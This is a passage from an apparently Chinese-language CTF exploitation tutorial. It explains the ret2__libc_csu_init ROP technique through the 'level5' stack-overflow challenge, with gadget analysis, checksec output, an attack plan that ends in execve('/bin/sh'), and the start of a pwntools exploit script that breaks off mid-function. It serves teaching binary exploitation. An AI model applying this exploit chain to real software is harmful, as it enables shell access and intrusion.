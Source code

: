 这里我们可以利用以下几点

- 从 0x000000000040061A 一直到结尾，我们可以利用栈溢出构造栈上数据来控制 rbx,rbp,r12,r13,r14,r15 寄存器的数据。
- 从 0x0000000000400600 到 0x0000000000400609，我们可以将 r13 赋给 rdx,将 r14 赋给 rsi，将 r15d 赋给 edi（需要注意的是，虽然这里赋给的是 edi，**但其实此时 rdi 的高 32 位寄存器值为 0（自行调试）**，所以其实我们可以控制 rdi 寄存器的值，只不过只能控制低 32 位），而这三个寄存器，也是 x64 函数调用中传递的前三个寄存器。此外，如果我们可以合理地控制 r12 与 rbx，那么我们就可以调用我们想要调用的函数。比如说我们可以控制 rbx 为 0，r12 为存储我们想要调用的函数的地址。
- 从 0x000000000040060D 到 0x0000000000400614，我们可以控制 rbx 与 rbp 的之间的关系为rbx+1 = rbp，这样我们就不会执行 loc_400600，进而可以继续执行下面的汇编程序。这里我们可以简单的设置rbx=0，rbp=1。

### 示例

这里我们以蒸米的一步一步学 ROP 之 linux_x64 篇中 level5 为例进行介绍。首先检查程序的安全保护

```shell
➜  ret2__libc_csu_init git:(iromise) ✗ checksec level5   
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序为 64 位，开启了堆栈不可执行保护。

其次，寻找程序的漏洞，可以看出程序中有一个简单的栈溢出

```c
ssize_t vulnerable_function()
{
  char buf; // [sp+0h] [bp-80h]@1

  return read(0, &buf, 0x200uLL);
}
```

简单浏览下程序，发现程序中既没有 system 函数地址，也没有 /bin/sh 字符串，所以两者都需要我们自己去构造了。

**注：这里我尝试在我本机使用 system 函数来获取 shell 失败了，应该是环境变量的问题，所以这里使用的是execve 来获取 shell。**

基本利用思路如下

- 利用栈溢出执行 libc_csu_gadgets 获取 write 函数地址，并使得程序重新执行 main 函数
- 根据 libcsearcher 获取对应 libc 版本以及 execve 函数地址
- 再次利用栈溢出执行 libc_csu_gadgets 向 bss 段写入 execve 地址以及 '/bin/sh’ 地址，并使得程序重新执行main 函数。
- 再次利用栈溢出执行 libc_csu_gadgets 执行 execve('/bin/sh') 获取 shell。

exp 如下

```python
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
```